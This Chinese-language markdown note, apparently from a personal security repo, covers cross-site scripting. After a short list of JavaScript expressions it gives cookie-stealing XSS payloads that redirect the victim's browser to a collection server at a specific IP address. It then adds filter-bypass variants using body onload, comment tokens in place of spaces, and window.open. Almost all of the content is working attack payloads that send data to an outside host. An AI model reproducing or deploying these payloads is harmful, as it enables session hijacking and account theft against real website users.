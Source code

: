 # XSS远程执行漏洞

### 常用js语句
````

document.cookie				用于js获取当前网页的cookie值
window.location.href			 用于获取当前页面地址链接
window.location.href='www.baidu.com'	  用于相当于跳转地址

````

常用playload：

````
<script>window.location.href='http://[ip]/xss.php?cookie='+document.cookie</script>
````
     




### 我直接买了一个服务器并且开放了读写权限可以拿来实验XSS

````
相关的ip和playload
<script>window.location.href='http://106.53.207.220/xss.php?cookie='+document.cookie</script>


回显请看
http://106.53.207.220/cookie.txt
````


## 绕过

* 过滤script标签


````
<body onload="document.location.href='http://106.53.207.220/xss.php?xss='+document.cookie"></body>

````

* 过滤空格(使用tab、/**/来绕过)

````
<body/**/onload="document.location.href='http://106.53.207.220/xss.php?xss='+document.cookie"></body>

````


* 其他可行的playload

````
<body/**/onload="document.location.href='http://106.53.207.220/x.php?x='+document.cookie"></body>

<body/onload="window.open('http://106.53.207.220/x.php?x='+document.cookie)"></body>

````



